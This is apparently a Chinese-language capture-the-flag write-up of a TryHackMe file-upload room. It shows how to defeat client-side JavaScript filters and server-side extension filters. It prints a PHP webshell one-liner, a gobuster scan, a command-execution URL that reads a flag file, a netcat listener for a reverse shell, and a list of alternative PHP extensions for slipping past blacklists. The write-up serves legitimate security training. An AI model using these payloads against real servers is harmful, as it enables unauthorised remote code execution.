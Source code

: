 ```yaml
---

toc: true
toc_label: "目录"
---
```

# 0516文件上传绕过（client-side）

https://tryhackme.com/room/uploadvulns的Task 7

已知http://java.uploadvulns.thm（PS：需要在/etc/hosts中设置IP和域名对应）只存在client-side的文件上传过滤，目标是得到该服务器/var/www/下的flag



打开网页如下：

![image]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516095801615.png)



因为是client-side的过滤故查看源代码，发现非png类型文件不可上传

![image-20220516100025617]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516100025617.png)



整个流程是用户请求网页，然后服务器返回网页信息（html等等信息），其中包含了上面用于过滤文件类型的JavaScript代码。然后点击“select file”打开文件后，过滤代码就在用户端运行。点击上传，文件就传输到服务器。

![image-20220516102207195]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516102207195.png)

所以我们可以用两种方法来打破client-side过滤的机制：

1. 在服务器返回网页信息的时候截胡，把过滤代码删掉
2. 在过滤代码执行的时候处理，上传一个png后缀文件，但在执行结果返回前把文件类型改回来

可以用webshell或者reverse shell：

1. webshell我用的是以下代码

   ```
   <?php
   	echo system($_GET["cmd"]);
   ?>
   ```

2. reverse shell用的是kali的/usr/share/webshells/php/php-reverse-shell.php（记得改文件里的$IP为攻击机的IP）

以上的2X2种方法可以随便组合

## 方法一：删过滤代码+webshell

打开网页代理，打开burpsuite，选择response to this request来显示服务器返回的包（默认情况下不显示）。

![image-20220516105740620]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516105740620.png)

点击forward，收到返回的包，删除过滤的js代码

![image-20220516105947436]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516105947436.png)

点击forward后，正常上传文件即可

问题是不知道webshell.php在哪，所以用gobuster扫一下文件目录：

```
gobuster dir -u http://java.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

找到一个可疑的文件夹/images，访问这个文件夹：http://java.uploadvulns.thm/images果然在里面，所以只要访问

```
http://java.uploadvulns.thm/images/webshell.php?cmd=cat /var/www/flag.txt
```



## 方法二：修改文件类型+reverse shell

把php-reverse-shell.php改成shell.png(改成shell只是懒得打，但是后缀一定要改)

![image-20220516110903950]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516110903950.png)

点击“upload”，修改文件类型，点击forward成功上传

![image-20220516111059415]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516111059415.png)

也是一样的用gobuster找到文件上传到何处

攻击机这边打开netcat的listener，然后访问

```
nc -lvnp 1234(端口号)
```

获得reverse shell，得到flag

![image-20220516111412502]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516111412502.png)



# 0516文件上传绕过（server-side）-文件拓展名过滤

https://tryhackme.com/room/uploadvulns的Task 8

后缀改成php5就可以上传了，以下是一些很少使用但服务器或许可以识别的Php后缀名，一个个试出来的：.php3, .php4, .php5, .php7, .phps, .php-s,  .pht .phar。

![image-20220516152831391]({{ site.url }}{{ site.baseurl }}/assets/images/2022-05-16-file-upload-wp/image-20220516152831391.png)

# 0516文件上传绕过（server-side）-magic numbers过滤

https://tryhackme.com/room/uploadvulns的Task 9

